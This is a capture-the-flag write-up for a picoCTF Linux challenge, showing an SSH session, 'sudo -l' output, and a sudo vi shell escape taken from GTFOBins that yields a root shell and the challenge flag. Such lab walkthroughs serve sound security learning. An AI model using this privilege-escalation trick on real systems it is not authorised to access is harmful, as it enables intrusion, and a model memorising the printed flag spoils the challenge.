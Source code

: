We need to first see what commands can be used by doing sudo -l
```bash
 ssh picoctf@saturn.picoctf.net -p 52082             
The authenticity of host '[saturn.picoctf.net]:52082 ([13.59.203.175]:52082)' can't be established.
ED25519 key fingerprint is SHA256:lAxuAwDPxkngr5Aw0vqCbwmNz/+0ii8HjltkWeRcMjw.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:7: [hashed name]
    ~/.ssh/known_hosts:8: [hashed name]
    ~/.ssh/known_hosts:9: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:52082' (ED25519) to the list of known hosts.
picoctf@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

```

We see that only server.py is available and /usr/bin/vi
Since server.py has nothing, we have to focus on the latter
[https://gtfobins.github.io/gtfobins/vi/](https://gtfobins.github.io/gtfobins/vi/)
Using gtfobins,

```bash
$ sudo vi -c ':!/bin/sh' /dev/null
[sudo] password for picoctf: 

# whoami
root
# cd /root
# ls -al
total 12
drwx------ 1 root root   23 Aug  4 21:11 .
drwxr-xr-x 1 root root   51 Jan 11 09:34 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   43 Aug  4 21:11 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat .flag.txt
picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}
```

**FLAG - `picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`**


